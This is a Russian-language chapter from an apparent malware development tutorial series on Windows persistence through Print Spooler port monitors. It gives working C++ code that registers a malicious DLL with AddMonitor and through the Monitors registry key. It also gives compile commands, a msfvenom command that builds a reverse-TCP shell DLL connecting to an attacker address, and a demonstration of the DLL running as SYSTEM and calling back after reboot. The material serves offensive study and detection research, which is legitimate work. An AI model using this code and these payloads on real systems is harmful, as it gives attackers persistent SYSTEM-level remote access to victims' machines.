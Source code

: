 \newpage
\subsection{74. Разработка вредоносного ПО: закрепление (persistence) - часть 8. Мониторы портов. Простой пример на C++.}

![pers](./images/59/2022-06-20_19-35.png){width="80%"}    

Этот пост является результатом самостоятельного исследования одного из интересных методов персистентности вредоносного ПО: Мониторы портов.    

### мониторы портов

Монитор порта в этом контексте относится к службе Windows Print Spooler (`spoolv.exe`). При добавлении монитора порта пользователь (или атакующий) может добавить произвольную DLL, которая будет служить *"монитором"*.    

Существует два основных способа добавить монитор порта, то есть вредоносную DLL: через реестр (для персистентности) или с помощью пользовательского приложения Windows (`AddMonitor`), что приведёт к немедленному выполнению DLL.    

### добавление монитора

С помощью Win32 API, а именно функции `AddMonitor` из API диспетчера очереди печати:

```cpp
BOOL AddMonitor(
  LPTSTR pName,
  DWORD  Level,
  LPBYTE pMonitors
);
```

можно добавить произвольный монитор DLL во время работы системы. Заметьте, что для добавления монитора требуются права локального администратора.    

Пример исходного кода монитора:

```cpp
/*
monitor.cpp
персистентность Windows через мониторы портов
регистрация монитора порта
author: @cocomelonc
https://cocomelonc.github.io/tutorial/
2022/06/19/malware-pers-8.html
*/
#include "windows.h"
#pragma comment(lib, "winspool")

int main(int argc, char* argv[]) {
  MONITOR_INFO_2 mi;
  mi.pName = "Monitor";
  mi.pEnvironment = "Windows x64";
  // mi.pDLLName = "evil.dll";
  mi.pDLLName = "evil2.dll";
  AddMonitor(NULL, 2, (LPBYTE)&mi);
  return 0;
}
```

Скомпилируем его:

```bash
x86_64-w64-mingw32-g++ -O2 monitor.cpp -o monitor.exe \
-I/usr/share/mingw-w64/include/ -s -ffunction-sections \
-fdata-sections -Wno-write-strings -fno-exceptions \
-fmerge-all-constants -static-libstdc++ \
-static-libgcc -fpermissive -lwinspool
```

![pers](./images/59/2022-06-20_08-17.png){width="80%"}    

Также создадим "вредоносную" DLL:

```bash
msfvenom -p windows/x64/shell_reverse_tcp \
LHOST=192.168.56.1 LPORT=4445 -f dll > evil2.dll
```

![pers](./images/59/2022-06-20_19-24.png){width="80%"}    

После компиляции кода будет создан исполняемый файл (`monitor.exe`), который зарегистрирует вредоносную DLL (`evil2.dll`) в системе.    

### демонстрация добавления "монитора"

Копируем файлы и запускаем:

```powershell
copy Z:\2022-06-19-malware-pers-8\evil2.dll .\
copy Z:\2022-06-19-malware-pers-8\monitor.exe .\
.\monitor.exe
```

![pers](./images/59/2022-06-20_19-28.png){width="80%"}    

### закрепление через реестр

Список под-ключей мониторов портов можно найти в узле        
`HKEY_LOCAL_MACHINE\SYSTEM\CurrentControlSet\Control\Print\Monitors`.       
Каждый ключ должен содержать запись `REG_SZ`, указывающую на `Drivers` DLL. При запуске системы каждая из этих DLL будет выполняться от имени `SYSTEM`.    

Сначала, перед выполнением вредоносных действий, проверяем под-ключи:

```powershell
reg query \
"HKLM\System\CurrentControlSet\Control\Print\Monitors" \
/s
```

![pers](./images/59/2022-06-20_15-48.png){width="80%"}    

Затем добавляем под-ключ `Meow` и значение `Driver`:

```powershell
reg add \
"HKLM\System\CurrentControlSet\Control\Print\Monitors\Meow"
 /v "Driver" /d "evil2.dll" /t REG_SZ
reg query \
"HKLM\System\CurrentControlSet\Control\Print\Monitors"
 /s
```

![pers](./images/59/2022-06-20_18-17.png){width="80%"}    

Как видно, всё выполнено корректно. Затем перезагружаем машину жертвы:

![pers](./images/59/2022-06-20_18-17_1.png){width="80%"}    

![pers](./images/59/2022-06-20_18-17_2.png){width="80%"}    

И через несколько минут:

![pers](./images/59/2022-06-20_19-30.png){width="80%"}    

![pers](./images/59/2022-06-20_19-31.png){width="80%"}    

Проверяем вкладку `Network` в Process Hacker 2:

![pers](./images/59/2022-06-20_19-34.png){width="80%"}    

Можно увидеть, что `evil2.dll` используется `spoolsv.exe (PID: 4616)`, который в конечном итоге порождает `rundll32` с нашим вредоносным кодом, создавая соединение с атакующим:

![pers](./images/59/2022-06-20_19-33.png){width="80%"}    

очистка после экспериментов

```powershell
Remove-ItemProperty -Path \
"HKLM:\System\CurrentControlSet\Control\Print\Monitors\
Meow" -Name "Driver"
```

![pers](./images/59/2022-06-20_21-22.png){width="80%"}    

"Грязный" PoC для персистентности через реестр:

```cpp
/*
pers.cpp
windows persistence via port monitors
author: @cocomelonc
https://cocomelonc.github.io/tutorial/
2022/06/19/malware-pers-8.html
*/
#include <windows.h>
#include <string.h>
#include <stdlib.h>
#include <stdio.h>

int main(int argc, char* argv[]) {
  HKEY hkey = NULL;

  // subkey
  const char* sk = 
  "\\System\\CurrentControlSet\\Control\\Print\\Monitors\\Meow";

  // evil DLL
  const char* evilDll = "evil.dll";

  // startup
  LONG res = RegCreateKeyEx(HKEY_LOCAL_MACHINE, 
  (LPCSTR)sk, 0, NULL, REG_OPTION_NON_VOLATILE, 
  KEY_WRITE | KEY_QUERY_VALUE, NULL, &hkey, NULL);
  if (res == ERROR_SUCCESS) {

    // create new registry key
    RegSetValueEx(hkey, (LPCSTR)"Driver", 0, REG_SZ, 
    (unsigned char*)evilDll, strlen(evilDll));
    RegCloseKey(hkey);
  } else {
    printf("failed to create new registry subkey :(");
    return -1;
  }
    return 0;
}
```

Во время Defcon 22 Брэди Блоксхэм [продемонстрировал](https://defcon.org/images/defcon-22/dc-22-presentations/Bloxham/DEFCON-22-Brady-Bloxham-Windows-API-Abuse-UPDATED.pdf) этот метод закрепления. Этот метод требует прав администратора, а DLL-файл должен быть сохранен на диске.
Остается вопрос, используют ли какие-либо APT этот метод в реальных условиях.

[Windows Print Spooler Service](https://docs.microsoft.com/en-us/openspecs/windows_protocols/ms-prsod/7262f540-dd18-46a3-b645-8ea9b59753dc)    
[Defcon-22: Brady Bloxham - Getting Windows to Play with itself](https://defcon.org/images/defcon-22/dc-22-presentations/Bloxham/DEFCON-22-Brady-Bloxham-Windows-API-Abuse-UPDATED.pdf)    
[MITRE ATT&CK - Port Monitors persistence technique](https://attack.mitre.org/techniques/T1547/010/)    
[исходный код на Github](https://github.com/cocomelonc/2022-06-19-malware-pers-8)   
